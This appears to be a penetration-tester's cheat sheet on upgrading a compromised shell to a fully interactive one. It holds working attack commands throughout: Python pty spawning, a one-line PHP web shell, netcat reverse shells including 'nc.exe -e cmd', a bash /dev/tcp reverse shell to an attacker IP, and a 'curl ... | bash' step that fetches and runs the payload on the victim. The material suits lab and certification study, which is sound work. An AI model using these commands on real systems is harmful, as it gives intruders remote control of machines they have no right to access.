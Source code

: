 ```yaml
---
description: Dummy shell to fully-interactive shell upgrade
---
```


# 😎 Fully-Interactive Shell Upgrade

## You just popped a shell...

BE SURE TO START YOUR NC LISTENER IN BASH INSTEAD OF FISH OR ZSH

Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

If Python3 is available:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Example syntax:

```
/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* The shell will look exactly the same or it may appear slightly differently

However, to gain full functionality do the following:

<mark style="color:yellow;">Press CTRL+Z</mark>

```
 stty raw -echo; fg
```

* <mark style="color:yellow;">Press enter a few times after this</mark>
* <mark style="color:yellow;">export TERM=xterm-256color</mark>
* Now, you will have a fully-interactive shell
* This includes tab/auto-complete
* CTRL+C
* And more

## PHP Web Shell

1. Create web shell

```
echo '<?php system($_GET["x"]);?>' > php-cmd.php
```

&#x20; 2\. Transfer to target (i.e. FTP)

&#x20; 3\. Use Netcat to connect back to your attack machine

&#x20; 4\. Transfer the nc.exe binary if it is a Windows target

&#x20; 5\. Start Netcat listener on the attack machine

```
nc -lnvp 1337
```

&#x20; 6\. Trigger reverse shell

```
nc -v <kali_ip_here> 1337

nc.exe -v <kali_ip_here> 1337 -e cmd
```

### Web Shell -> Reverse Shell Upgrade

* I personally do not like operating in web shells because of their clunky nature
* Let's fix that
* Situation: You ALREADY have a web shell on the victim

Create file:

rev\_shell:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener on Kali:

```
nc -lnvp 1337
```

Begin HTTP Server on Kali:

```
python3 -m http.server 80
```

Transfer file to the victim (I found out that you need to use curl when piping to bash):

```
curl 192.168.49.90/rev_shell | bash
```

Go back to your Netcat listener:

<figure><img src="../.gitbook/assets/image (1) (1) (1) (4) (3).png" alt=""><figcaption></figcaption></figure>
